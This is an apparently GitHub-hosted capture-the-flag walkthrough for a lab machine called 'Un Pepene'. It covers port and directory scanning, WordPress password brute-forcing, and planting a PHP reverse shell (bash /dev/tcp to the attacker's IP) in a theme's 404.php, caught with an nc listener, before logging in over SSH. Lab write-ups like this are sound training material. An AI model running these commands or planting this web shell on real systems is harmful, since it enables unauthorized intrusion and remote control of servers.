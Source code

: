 # CTF: Un Pepene

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre](https://img.shields.io/badge/by-Alexandre-%23f9a03c)  
![alt text](img/silence.png)
## Description

> Efectuați un test de penetrare

## Write-up

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We found default Debian Apache2 page. Let's check with a gobuster scan.

```bash
gobuster dir --url http://$IP -w /usr/share/wordlists/dirb/common.txt
```

Results : 
```bash
/blog (Status: 301)
```

We have to go to the blog directory.

```bash
http://$IP/blog
```

But we are redirected to an host `http://timetime.thm`. We can add the host to the `/etc/hosts` file.

```bash
echo "$IP timetime.thm" >> /etc/hosts
```

We have a blog page wordpress. We can wpscan to find vulnerabilities.

```bash
wpscan -e u --url http://<HOST>/blog

[i] User(s) Identified:

[+] admin
```

We have an admin user. We can try to bruteforce the password.

```bash
wpscan --url http://<HOST>/blog -U admin -P /usr/share/wordlists/rockyou.txt
```

We have the password for admin `admin`.

We can login to the wordpress admin page.

```bash
http://timetime.thm/blog/wp-admin
```

We can go to the `Appearance` tab and `Editor`. We can edit the `404.php` file and add a reverse shell.

```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'");
?>
```

We can start a listener on the attacker machine.

```bash
nc -lvnp $PORT
```

We can connect to the reverse shell.

```bash
http://timetime.thm/blog/index.php/404.php
```

We are connected to the reverse shell. After long search, we can find a file `wp-save.txt` in the `/opt` directory.

```bash
cat /opt/wp-save.txt
```

We have an user `squeezie` with a password. We can login with the user `squeezie` and the password we found.

```bash
ssh squeezie@$IP
```

We can find the user flag.

**Well done! You found the user flag!**

